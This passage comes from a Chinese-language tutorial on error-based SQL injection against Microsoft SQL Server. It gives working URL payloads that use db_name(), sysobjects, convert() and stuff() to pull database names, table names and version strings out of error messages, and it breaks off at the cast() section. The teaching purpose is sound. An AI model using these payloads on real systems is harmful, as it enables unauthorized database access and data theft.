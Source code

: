 ```
#获取数据库库名
?id=1' and 1=(select db_name()) -- qwe

```

[![](https://p0.ssl.qhimg.com/t01f288e811fb1764c3.png)](https://p0.ssl.qhimg.com/t01f288e811fb1764c3.png)

```
#获取第一个表名
?id=1' and 1=(select top 1 name from dbo.sysobjects) -- qwe

```

[![](https://p1.ssl.qhimg.com/t01c2dcc7214ea0790b.png)](https://p1.ssl.qhimg.com/t01c2dcc7214ea0790b.png)

```
#将数据连接显示
?id=1'  and 1=stuff((select db_name() for xml path('')),1,0,'')--+

```

### <a class="reference-link" name="2%E3%80%81convert()%E5%87%BD%E6%95%B0"></a>2、convert()函数

```
convert(int,db_name())，将第二个参数的值转换成第一个参数的int类型。
```

具体用法如下：

```
#获取数据库库名
?id=1' and 1=convert(int,(select db_name())) -- qwe

```

[![](https://p5.ssl.qhimg.com/t0147c5729c269d0ac8.png)](https://p5.ssl.qhimg.com/t0147c5729c269d0ac8.png)

```
#获取数据库版本
?id=1' and 1=convert(int,(select @@version))) -- qwe

```

[![](https://p3.ssl.qhimg.com/t0171dbf58ebfd7a276.png)](https://p3.ssl.qhimg.com/t0171dbf58ebfd7a276.png)

### <a class="reference-link" name="3%E3%80%81cast()%E5%87%BD%E6%95%B0"></a>3、cast()函数

```
CAST(expression AS data_type)，将as前的参数以as后指定了数据类型转换。
```

具体用法如下：
